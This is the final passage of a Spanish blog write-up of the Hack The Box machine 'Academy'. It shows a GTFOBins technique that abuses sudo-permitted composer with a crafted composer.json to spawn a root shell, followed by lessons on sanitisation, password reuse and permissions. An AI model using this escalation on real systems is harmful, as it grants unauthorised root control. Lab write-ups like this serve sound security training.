 * [GTFOBins exploiting composer bin - gtfobins.github.io/composer](https://gtfobins.github.io/gtfobins/composer/).

En la máquina escribimos:

```bash
mrb3n@academy:/dev/shm$ TF=$(mktemp -d)
mrb3n@academy:/dev/shm$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/dev/shm$ sudo /usr/bin/composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Listones, tenemos una Shell como `root` en el sistema, lo único que nos quedaría ver serian las flags:

![297flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297flags.png)

...

Y hemos terminado, siendo `root` podemos hacer lo que queramos :P

Linda máquina, muy didáctica, su nombre (academy) esta de acuerdo con lo que toma, nos recuerda la implementación de una buena sanitización HTML, el hacer un buen research con base en lo que tenemos (errores y rutas), enumeración de archivos, probar contraseñas que probablemente no "deban" estar relacionadas, pero que si tenemos en cuenta que somos personas muchas veces olvidadizas o perezosas, asignamos la misma contraseña para varios servicios...

También nos muestra la importancia de los archivos **log** (y lo peligrosos) y finalmente el clásico, ver si podemos ejecutar algún recurso con **permisos** de administrador (:

Linda máquina, muchas gracias por leer y como siempre, a seguir rompiendo todo (: